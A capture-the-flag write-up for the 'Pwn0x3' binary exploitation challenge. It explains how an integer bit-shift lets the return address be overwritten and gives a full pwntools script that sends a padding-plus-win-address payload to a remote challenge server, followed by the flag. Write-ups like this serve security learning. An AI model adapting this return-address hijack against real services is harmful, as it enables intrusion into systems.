





## Summary

Challenge **Pwn0x3** from the 2025_SADC-NextGenCyber-CTF CTF, binary exploitation category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# Pwn0x3



For this challenge we need also to change the rip register to match the win function

If we send multiple f we can see that the rip register does not change



But sending 67108864 at first provoke a bit shift and then when input the letter “A” 8 times + “B” the rip value is change suscessfully



Here is the win function address



The python script to trigger the bit shift and send the paylaod

```python
#!/usr/bin/env python3
from pwn import *

HOST = "109.205.181.210"
PORT = 14002

WIN = 0x401186

# value that triggers the 32-bit shift -> 0 but 64-bit shift non-zero
N = 67108864  # 2**26

def exploit():
    p = remote(HOST, PORT, timeout=6)

    # send N to trigger the bit shift
    p.sendline(str(N).encode())

    try:
        banner = p.recvuntil(b"bytes awaited)...\n", timeout=2)
    except Exception:
        pass

    # payload : 8 bytes padding + win address
    payload = b"A"*8 + p64(WIN)

    p.send(payload)

    try:
        resp = p.recvall(timeout=4)
    except Exception:
        resp = b""

    print("--- server response ---")
    print(resp.decode(errors='ignore'))
    p.close()

if __name__ == "__main__":
    exploit()

```



**FLAG:** SADC{int3g3r_ov3rrFl0w_1s_n07_h@rd}

## Flag

SADC{int3g3r_ov3rrFl0w_1s_n07_h@rd}

## Lessons and reusable patterns

- (see resolution method above)
